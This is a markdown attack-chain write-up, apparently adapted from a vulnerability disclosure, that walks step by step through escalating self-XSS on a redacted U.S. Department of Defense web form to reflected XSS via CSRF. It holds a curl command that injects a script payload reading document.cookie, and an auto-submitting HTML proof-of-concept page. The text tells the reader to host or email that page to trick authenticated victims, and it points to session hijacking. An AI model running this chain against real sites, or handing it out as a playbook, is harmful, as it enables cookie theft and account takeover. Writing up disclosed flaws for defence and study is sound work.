

# Self-XSS and CSRF Escalation to Reflected XSS in DoD Web Form

Multi-stage attack chain demonstrating a complete attack workflow on a U.S. Department of Defense web form, where self-XSS in input fields is escalated via CSRF to reflected XSS, allowing arbitrary JavaScript execution in the victim's browser.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- Text editor for crafting HTML PoC

### Target Environment

- Web platform
- Access to https://███████/ form endpoint
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials required (public-facing form)
- Direct network access to the DoD site
- Victim must be authenticated or in a context where form submission is valid

## Detailed Attack Procedures

### Step 1: Visit the Vulnerable Form Page

**Objective**: Load the target form to prepare for payload injection.

**Instructions**: Navigate to the form page using a web browser.

**Expected Output**: The form loads with fields like first_name, middle_name, last_name.

**Success Indicators**:
- Form page accessible without errors
- Input fields visible and editable

### Step 2: Inject XSS Payload into the First Name Input
procedure: [[procedures/Demonstrate-Self-XSS-Injection]]

**Objective**: Insert a malicious JavaScript payload into the form to demonstrate self-XSS upon submission.

**Instructions**: Enter the payload into the first_name field and use [[commands/curl-submit-self-xss-form]] to simulate submission if testing remotely:

```bash
curl -X POST https://██████████/ -d "first_name=test\";<script>alert(document.cookie)</script>&middle_name=&last_name=" -H "Content-Type: application/x-www-form-urlencoded"
```

**Expected Output**: Form submission reflects the payload in the response.

**Success Indicators**:
- Payload accepted without sanitization
- No immediate execution (self-XSS requires submission and view)

### Step 3: Fill Remaining Form Inputs and Submit the Form
procedure: [[procedures/Demonstrate-Self-XSS-Injection]]

**Objective**: Complete the form submission to trigger self-XSS execution.

**Instructions**: Fill other fields (e.g., middle_name, last_name) and submit via POST. Use the curl command above, adjusting fields as needed.

**Expected Output**: Upon viewing the response page, the alert pops with document.cookie.

**Success Indicators**:
- JavaScript executes in the browser
- Cookies displayed in alert

### Step 4: Observe the Self-XSS Execution

**Objective**: Confirm the payload executes only when the user submits and views the result.

**Instructions**: After submission, inspect the response page source to see the reflected payload.

**Expected Output**: Alert box appears with cookie data.

**Success Indicators**:
- Arbitrary JS runs in attacker's own session
- Confirms lack of output encoding

### Step 5: Exploit CSRF to Perform Reflected XSS
procedure: [[procedures/Escalate-to-Reflected-XSS-via-CSRF]]

**Objective**: Create and deliver a CSRF PoC to force any victim to submit the malicious form, escalating to reflected XSS.

**Instructions**: Craft an HTML page that auto-submits the form with the payload, then host or email it to the victim. Example PoC structure:

```html
<html><body><form action="https://██████████/" method="POST" id="poc"><input type="hidden" name="first_name" value='test"; <script>alert(document.cookie)</script>'><input type="hidden" name="middle_name" value=""><input type="hidden" name="last_name" value=""></form><script>document.getElementById('poc').submit();</script></body></html>
```

Trick the victim into loading this page while authenticated.

**Expected Output**: Victim's browser executes the XSS upon auto-submission.

**Success Indicators**:
- Victim's session cookies alerted
- Potential for session hijacking

## Attack Chain Summary

### Key Achievements

1. Demonstrated self-XSS limited to the injecting user
2. Escalated via CSRF to affect any authenticated victim
3. Achieved arbitrary JS execution for data theft or hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
